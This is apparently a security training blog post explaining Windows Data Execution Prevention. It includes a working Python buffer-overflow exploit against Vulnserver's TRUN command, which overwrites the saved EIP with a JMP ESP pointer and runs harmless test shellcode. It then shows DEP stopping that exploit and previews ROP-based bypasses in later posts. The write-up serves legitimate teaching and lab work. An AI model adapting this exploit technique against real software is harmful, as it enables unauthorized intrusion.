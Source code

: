 :page-slug: understanding-dep/
:page-date: 2020-08-21
:page-category: attacks
:page-subtitle: Let's protect the stack
:page-tags: osee, training, exploit
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620331134/blog/understanding-dep/cover_infp8m.webp
:page-alt: Photo by Chris Panas on Unsplash
:page-description: This post will show how the Data Execution Prevention (DEP) security mechanism works and what are the implication for exploit development.
:page-keywords: Business, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:page-author: Andres Roldan
:page-writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/0Yiy0XajJHQ

= Understanding DEP

In past blog entries, we've written a good amount of articles dealing
with Windows exploit development, link:../tags/vulnserver/[most of them]
attacking Vulnserver, a vulnerble-by-design (`VbD`) server that is designed
for such a noble endeavor. We also wrote a couple of articles creating an
exploit for link:../quickzip-exploit/[QuickZIP] and
link:../netscan-exploit/[MiTec Net Scanner]. All of those exploits
relied on the ability to execute instructions written on the stack of the
process.

However, modern CPUs have a mechanism that allow the OS to prevent that.

In this article, we will introduce that protecion and in forthcoming articles
we will check a way to bypass it, called `ROP` (Return-Oriented Programming).

== No-Execute bit

The protection on the CPUs is known as the NX (No-Execute) bit. The OS will
use such capability to mark some memory areas (remarkably the stack) as
non-executable and thus, preventing common buffer overflow exploits like the
ones we've used so far. Let's clarify that.

In `x86` architecture, when a function is called, a function frame is created
on the stack. This is a common function stack frame distribution on memory:

.Common function stack frame
[source,text]
----
.____________._____________._____________._____________._________________.
   vuln_var     Saved EBP     Saved EIP     Func args     Rest of stack
----

On a simple buffer overflow, when we write past the `vuln_var` size,
we can overwrite anything that's below the stack, including the `Saved EBP`
and `Saved EIP`. When the vulnerable function returns, it will get the
`Saved EIP` value back from the stack and use it as the next instruction
pointer. That's why we usually overwrite the `Saved EIP` with a pointer
to a `JMP ESP` instruction that allow us to redirect execution back to the
stack on where we put the shellcode.

.Example overflowed vuln_var
[source,text]
----
 AAAAAAAAAAAA AAAAAAAAAAAAA <pointer to JMP ESP>    Shellcode
.____________._____________.____________________._______________.
   vuln_var     Saved EBP         Saved EIP       Rest of stack
----

For example, let's take a look a this exploit:

[source,python]
----
#!/usr/bin/env python3
#
# Simple DEP check

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 625011AF   .  FFE4                  JMP ESP
    struct.pack('<L', 0x625011AF) +
    b'\x31\xc0' +       # xor eax,eax
    b'\x04\x08' +       # add al,0x8
    b'\x90' +           # nop
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

This a simple exploit that will take advantage of a buffer overflow
vulnerability of the Vulnserver `TRUN` command. link:../vulnserver-trun/[Here]
you can see the full writeup of how to find that vulnerability using fuzzing
and link:../reversing-vulnserver/[here] using reverse engineering.

This version of the exploit will overflow the vulnerable variable this way:

.Example overflowed vuln_var
[source,text]
----
 AAAAAAAAAAAA AAAAAAAAAAAAA \xaf\x11\x50\x62  \x31\xc0\x04\x08\x90 CCCCCCCCCCC
.____________._____________._________________.____________________.___________.
   vuln_var     Saved EBP       Saved EIP          Shellcode       Fill buffer
----

On where:

. 2006 `A` are added to trigger the overflow.
. `0x625011AF` is a pointer to a `JMP ESP` instruction and will be placed on
`Saved EIP`.
. When the vulnerable function returns, it will execute the instruction
pointed by `Saved EIP` which holds the `JMP ESP` instruction.
. With that, the execution flow is now redirected to the stack on where the
shellcode was placed.
. The shellcode, in this case will execute three arbitrary instructions:
.. `xor eax eax` -> Zero-out `EAX` register
.. `add al,0x8` -> Make `EAX` = `0x00000008`
.. `nop` -> Does nothing

Let's see it in action:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331134/blog/understanding-dep/exec-stack1_vf9ycb.gif[Executing code on the stack]

As you can see, we were able to execute the instructions on our shellcode that
we placed on the stack, as expected.

== Enabling DEP

On modern Windows versions, the NX bit of the CPU can be leveraged by using a
feature called Data Execution Prevention or `DEP`. An application can be
compiled with the `/NXCOMPAT` flag to enable `DEP` for that application. Also,
you can use `editbin.exe /NXCOMPAT` over an `.exe` file to enable it on
an already compiled file.

In a debugger, we can check if an executable has that flag enabled:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331133/blog/understanding-dep/nxenabled_ggy9vw.webp[Modules with NXCOMPAT]

You can also enable `DEP` system-wide, which will force `DEP` to all
applications, including those compiled without `/NXCOMPAT`. To do that,
you can use the following instructions:

* Press the `Windows` key and search for `View advanced system settings`.
* In the resulting window, click on tab `Advanced`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331133/blog/understanding-dep/enable-dep1_jkzhsm.webp[Enabling DEP]

* Then in `Performance` click on `Settings`.
* Move to the tab `Data Execution Prevention`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331134/blog/understanding-dep/enable-dep2_eqdu9f.webp[Enabling DEP]

* The default setting is `Turn on DEP for essential Windows programs...`, but
to turn it on for every application, you must select
`Turn on DEP for all programs...`.
* Apply and restart the PC.

*WARNING:* When you change this value and you have `Bitlocker` enabled, you
will be asked to enter the `Bitlocker` recovery key after the reboot. *If you
don't have that information, please don't change the `DEP` value or your system
will become unusable.*

With that in place, we can check again our exploit to see if `DEP` really
prevents the execution of the instructions of our shellcode.

*NOTE:* We will talk about Hardware-based `DEP` which uses the NX bit of the
CPU to mark memory regions as non-executable. Software-based `DEP` will
only prevent SEH-based overflows and it's not in the scope of this article.
You can get more information on SEH-based
exploits link:../vulnserver-gmon/[here].

== Executing shellcode with DEP enabled

Now, after enabling `DEP` system-wide, let's execute our exploit again:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331134/blog/understanding-dep/exec-stack2_irsdv6.gif[DEP enabled]

Several things have happened:

. The overflow is performed.
. The `Saved EIP` value was overwritten successfully with the pointer
to `JMP ESP`.
. The `JMP ESP` instruction is performed and execution flow is rediected to
the stack on where our shellcode is placed.
. However, when it tries to execute the first instruction on the shellcode
(`xor eax,eax`), an `Access violation` exception is triggered, which means
that it was trying to execute code on a memory region marked as non-executable.
`DEP` worked.

== Bypassing DEP

Now, we cannot execute instructions placed on the stack, but we control the
execution flow of the application. However, the stack is a place where
the application (and therefore, the exploit) can read and write data and
by controlling both (the execution flow and the stack), we can do wonders.

In the previous example, we couldn't execute the instructions on the
shellcode, but we *were able* to execute a single instruction: `JMP ESP`.
We did that by placing the *pointer* to the instruction in the right place.

We can use that to run arbitrary code, without executing a single instruction
on the stack. Let's welcome
link:../bypassing-dep/[Return-Oriented Programming].

== Conclusions

This article shows a mechanism created to prevent the exploitation of
buffer overflow vulnerabilities. `DEP` surely leaves behind common exploits.
However, in the link:../bypassing-dep/[next article] we will see how to
bypass `DEP` using Return-Oriented Programming and later we can create a
fully working exploit that triggers a reverse TCP shell on a
DEP-enabled application.
